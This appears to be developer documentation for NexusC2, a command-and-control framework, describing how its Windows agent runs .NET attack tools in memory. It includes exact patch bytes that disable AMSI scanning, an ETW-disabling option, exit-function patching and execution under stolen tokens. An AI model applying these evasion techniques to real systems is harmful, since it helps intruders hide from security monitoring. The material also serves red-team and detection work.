

# .NET Assembly Execution

## Overview

NexusC2 supports in-memory execution of .NET assemblies (EXE and DLL) directly within the agent process. This capability allows running .NET tools like Rubeus, Seatbelt, SharpHound, and custom tooling without dropping files to disk.

**Key Features:**
- In-memory CLR hosting and assembly loading
- Support for .NET Framework 2.0/4.0+ assemblies
- Synchronous and asynchronous execution modes
- Exit prevention to protect agent stability
- Output capture via file redirection
- Token impersonation support

**Platform:** Windows only

---

## Architecture



---

## CLR Loading

### Runtime Selection

The agent automatically detects the required .NET runtime version:

| Runtime | Detection | Usage |
|---------|-----------|-------|
| v4.x | Default | Most modern .NET assemblies |
| v2.0.50727 | Contains "v2.0.50727" string | Legacy .NET 2.0/3.5 assemblies |

### CLR Hosting

The agent uses the `go-buena-clr` library for CLR hosting:

```go
import clr "github.com/almounah/go-buena-clr"

// Execute assembly in-memory
retCode, err := clr.ExecuteByteArray(targetRuntime, assemblyBytes, arguments)
```

### COM Initialization

COM must be initialized before CLR operations:

```go
hr, _, _ := coInitializeEx.Call(0, COINIT_MULTITHREADED)
if hr == 0 {
    defer coUninitialize.Call()
}
```

---

## Exit Prevention

### Overview

.NET assemblies may call `Environment.Exit()` or similar methods which would terminate the agent process. The exit prevention system patches these methods to prevent process termination.

### Patched Methods

| Method | Library | Purpose |
|--------|---------|---------|
| Environment.Exit | mscorlib/clr.dll | Primary .NET exit method |
| Application.Exit | System.Windows.Forms | WinForms application exit |
| Process.Kill | mscorlib | Process termination |
| ExitProcess | kernel32.dll | Native process exit |
| TerminateProcess | kernel32.dll | Native process termination |

### Patching Technique

Based on MDSec's CLR exit prevention technique:

```go
// Save original bytes
original := make([]byte, 5)
for i := 0; i < 5; i++ {
    original[i] = *(*byte)(unsafe.Pointer(addr + uintptr(i)))
}

// Change memory protection
virtualProtect.Call(addr, 5, PAGE_EXECUTE_READWRITE, ...)

// Patch with RET instruction
*(*byte)(unsafe.Pointer(addr)) = 0xC3  // RET

// Restore protection
virtualProtect.Call(addr, 5, oldProtect, ...)
```

### TerminateProcess Patch

For `TerminateProcess`, a more complex patch returns success without terminating:

```asm
; x64 version
XOR RAX, RAX   ; 48 31 C0
INC RAX        ; 48 FF C0  (return 1/TRUE)
RET            ; C3

; x86 version
XOR EAX, EAX   ; 31 C0
INC EAX        ; 40  (return 1/TRUE)
RET            ; C3
```

---

## Output Capture

### Persistent File Redirection

Output capture uses a single persistent temp file, created once when the CLR worker initializes. The file is truncated before each execution and read back after:

```go
// Worker init (once per agent lifetime)
captureFile, _ = os.CreateTemp("", "t")
setStdHandle.Call(STD_OUTPUT_HANDLE, captureFile.Fd())
setStdHandle.Call(STD_ERROR_HANDLE, captureFile.Fd())

// Per-execution capture
captureFile.Truncate(0)
captureFile.Seek(0, io.SeekStart)

// ... execute assembly ...

captureFile.Seek(0, io.SeekStart)
capturedBytes, _ := io.ReadAll(captureFile)
output = string(capturedBytes)
```

The persistent file approach avoids the CLR error (0x80131604) that occurs when stdout handles are closed between executions.

---

## Token Context

### Impersonation Support

Assemblies can execute under impersonated token contexts:

| Token Type | Behavior |
|------------|----------|
| No impersonation | Runs as agent process identity |
| Regular impersonation | Uses active stolen/created token |
| Network-only token | Uses token for network operations |

### Token Application

```go
func applyTokenContextForInlineAssembly() func() {
    if globalTokenStore.NetOnlyHandle != 0 {
        // Apply network-only token
        ImpersonateLoggedOnUser(globalTokenStore.NetOnlyHandle)
        return func() { RevertToSelf() }
    } else if globalTokenStore.IsImpersonating {
        // Apply regular token
        ImpersonateLoggedOnUser(globalTokenStore.Tokens[activeToken])
        return func() { RevertToSelf() }
    }
    return func() {} // No-op
}
```

**Note:** COM is initialized once on the CLR worker thread during startup. Token context is applied per-execution after the work request reaches the worker thread.

---

## Command Configuration

### JSON Format

```json
{
  "ab": "<base64 encoded assembly>",
  "ar": ["arg1", "arg2"],
  "ad": "CustomDomain",
  "ba": true,
  "be": false,
  "re": false,
  "ep": "Main",
  "up": false,
  "pm": ""
}
```

### Configuration Options

| Option | Description |
|--------|-------------|
| `ab` | Base64-encoded assembly bytes |
| `ar` | Command-line arguments array |
| `ad` | Custom AppDomain name (optional) |
| `ba` | Patch AMSI before execution |
| `be` | Disable ETW tracing |
| `re` | Restore ETW after execution |
| `ep` | Custom entry point method |
| `up` | Use named pipe for output |
| `pm` | Named pipe name |

---

## Synchronous Execution

### Command Type

```json
{
  "command_type": 18,
  "command": "inline-assembly",
  "data": "<JSON configuration>"
}
```

### Execution Flow

1. Parse JSON configuration
2. Base64 decode assembly bytes
3. Initialize exit prevention (once)
4. Apply AMSI bypass if requested
5. Send work to CLR worker (COM already initialized on worker thread)
6. Apply token context on worker thread
7. Load CLR and create AppDomain (cached after first use)
8. Create SafeArray from assembly bytes
9. Load assembly via `AppDomain.Load_3`
10. Get entry point and invoke via `MethodInfo.Invoke_3`
11. Read captured output from persistent temp file
12. Return result

---

## Asynchronous Execution

### Command Type

```json
{
  "command_type": 19,
  "command": "inline-assembly-async",
  "data": "<JSON configuration>"
}
```

### Job Management

Async assemblies run as tracked jobs:

```go
type NativeJob struct {
    ID              string
    CID             string
    DID             int
    AID             string
    Name            string
    Status          string  // running, completed, failed, killed, timeout
    StartTime       time.Time
    EndTime         *time.Time
    Output          strings.Builder
    OutputMutex     sync.Mutex
    OutputTruncated bool
    TotalBytesSent  int
    Error           error
    CancelChan      chan bool
    Cmd             *NativeRunMsg
    Process         *os.Process
    CredCtx         *CredContext
}
```

### Job Status Values

| Status | Description |
|--------|-------------|
| `running` | Assembly is executing |
| `completed` | Finished successfully |
| `failed` | Execution error occurred |
| `killed` | Manually terminated |
| `timeout` | Exceeded execution timeout |

### Job Commands

| Command | Description |
|---------|-------------|
| `inline-assembly-jobs` | List all assembly jobs |
| `inline-assembly-output <id>` | Get job output |
| `inline-assembly-kill <id>` | Kill running job |
| `inline-assembly-clean` | Clean up completed/failed jobs |
| `inline-assembly-stats` | Show CLR worker statistics |

---

## Thread Safety

### CLR Worker Pattern

Assembly execution is serialized through a channel-based worker pattern. A single goroutine with `runtime.LockOSThread()` processes all CLR work requests:

```go
var clrWorkerCh chan clrWorkRequest // buffer size 4

func clrWorkerLoop() {
    runtime.LockOSThread()
    coInitializeEx.Call(0, 0) // COM init once
    // ... setup capture file once ...
    for req := range clrWorkerCh {
        result := processCLRWork(req)
        req.resultCh <- result
    }
}
```

The execution count mutex is used only briefly to track execution count, not to serialize execution itself.

---

## Error Handling

### Error Codes

| Code | Description |
|------|-------------|
| E42 | Windows-only feature |
| E43 | No assembly data provided |
| E44 | Invalid JSON configuration |
| E45 | Base64 decode failed |
| E52 | Assembly execution failed (CLR error or panic during execution) |

### Panic Recovery

Async execution includes panic recovery:

```go
defer func() {
    if r := recover(); r != nil {
        job.Status = "failed"
        job.Error = fmt.Errorf("Assembly crashed: %v", r)
        // Send crash result
    }
}()
```

---

## AMSI Bypass

### Overview

When `ba` is enabled, the agent patches the AmsiScanBuffer function:

```asm
; Patch bytes: {0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3}
MOV EAX, 0x80070057  ; E_INVALIDARG
RET
```

This causes AmsiScanBuffer to return E_INVALIDARG, preventing AMSI from scanning loaded assemblies.

---

## Limitations

| Limitation | Description |
|------------|-------------|
| Platform | Windows only |
| CLR State | Multiple executions may corrupt CLR state |
| Output Capture | Some assemblies may bypass capture |
| Exit Prevention | Not 100% reliable for all exit methods |
| Memory | CLR remains loaded after first use |
| Concurrency | Synchronous execution is serialized |

### CLR State Warning

Running multiple .NET assemblies may cause CLR state corruption. If assemblies fail unexpectedly:
1. The CLR may have corrupted global state
2. Consider restarting the agent
3. Use async execution for long-running tools

---

## Related Files

| Component | File Path |
|-----------|-----------|
| Core Implementation | `server/docker/payloads/Windows/inline_assembly.go` |
| Windows Platform | `server/docker/payloads/Windows/action_inline_assembly.go` |
| Async Execution | `server/docker/payloads/Windows/action_inline_assembly_async.go` |
| Job Management | `server/docker/payloads/Windows/action_inline_assembly_async_jobs.go` |
| Exit Prevention | `server/docker/payloads/Windows/clr_exit_prevention.go` |
| AMSI/ETW Patching | `server/docker/payloads/Windows/patches.go` |
